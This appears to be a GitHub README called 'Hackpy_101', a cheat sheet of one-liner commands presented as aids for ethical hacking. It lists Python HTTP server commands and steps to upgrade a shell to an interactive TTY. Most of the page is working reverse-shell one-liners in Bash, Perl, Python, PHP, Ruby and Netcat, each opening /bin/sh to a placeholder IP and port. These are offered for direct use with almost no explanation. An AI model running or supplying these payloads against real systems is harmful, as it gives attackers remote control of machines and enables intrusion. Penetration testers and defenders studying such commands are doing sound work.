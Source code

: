 # Hackpy_101
Contains Various one liner scripts of python to help you in the Ethical hacking.

# For HTTP SERVER
Python2 :- python -m SimpleHTTPServer <port>
Python3 :- python -m  http.server <port>
To open a sever on specific IP we use -- bind 
For ex- python -m http.server port --bind <IP> 
If this doesnt work use python2 version.

# For Requesting a Interactive Shell in Python
python -c 'import pty; pty.spawn("/bin/bash")'
This will upgrade a dumb shell to an interactive one
If this doesnt work for you then try doing this step wise 

# In reverse shell
$ python -c 'import pty; pty.spawn("/bin/bash")'
Ctrl-Z

# In Kali
$ stty raw -echo
$ fg

# In reverse shell
$ reset
$ export SHELL=bash
$ export TERM=xterm-256color
$ stty rows <num> columns <cols>
  
# THIS IS WHAT YOU CALL A CONNECTOR TO A LISTENER
**THIS IS USED FOR REVERSE CONNECTIONS.
IF YOU DONT KNOW WHAT THIS MEANS --> "GOOGLE IT!!"
YOU CAN USE EITHER OF THE METHODS, GIVEN THAT THE SPECIFIC LANGUAGE IS INSTALLED IN YOUR SYSTEM**
# BASH
bash -i >& /dev/tcp/IP/PORT 0>&1

# PERL
perl -e 'use Socket;$i="IP";$p=PORT;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'

# Python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("IP",PORT));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

# PHP
php -r '$sock=fsockopen("IP",PORT);exec("/bin/sh -i <&3 >&3 2>&3");'

# Ruby
ruby -rsocket -e'f=TCPSocket.open("IP",PORT).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'

# Netcat
nc -e /bin/sh IP PORT
--------------x-------x--------xx-------------xxx----------x------------------x-----------------xxx---------------------x---------------------xxxxx--------x---------------------

